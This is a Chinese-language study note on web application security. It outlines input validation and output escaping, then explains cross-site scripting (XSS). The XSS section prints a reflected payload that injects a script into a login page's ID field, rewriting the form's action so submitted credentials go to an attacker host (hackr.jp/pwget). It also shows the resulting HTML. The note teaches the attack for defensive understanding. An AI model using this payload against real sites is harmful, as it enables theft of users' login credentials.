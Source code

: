 Web应用安全对策大致分为两部分：

1. 客户端验证

2. Web应用（服务器端）验证

   1. 输入值验证
   2. 输出值转义

   ![image-20221214130653952](./assets/image-20221214130653952.png)

#### XSS

跨站脚本攻击（Cross-Site Scrpting，XSS）是指通过存在安全漏洞的Web网站往用户的浏览器内注入运行非法的HTML标签或js进行的一种攻击。

- 利用虚假输入表单骗取用户个人信息

- 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求

- 显示伪造的文章或图片

- 跨站脚本攻击案例：在动态生成HTML处发生

  比如在url中传递脚本、或者黑客提交了脚本后没有经过检测、转义直接注入到网站上（安全漏洞），给黑客提供了伪造的时机。

  ```
  [http://example.jp/login?ID=](http://example.jp/login?ID=)"><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script>
  ```

  ```html
  <div class="logo">
    <img src="/img/logo.gif" alt="E! 拍卖会" />
  </div>
  <form action="http://example.jp/login" method="post" id="login"> 
    <div class="input_id">
  		ID <input type="text" name="ID" value="yama" /> 
    </div>
  </form>
  
  <!-- 会变成 -->
  <div class="logo">
    <img src="/img/logo.gif" alt="E! 拍卖会" />
  </div>
  <form action="http://example.jp/login" method="post" id="login"> 
    <div class="input_id">
  		ID <input type="text" name="ID" value=""><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script>
    </div>
  </form>
  ```
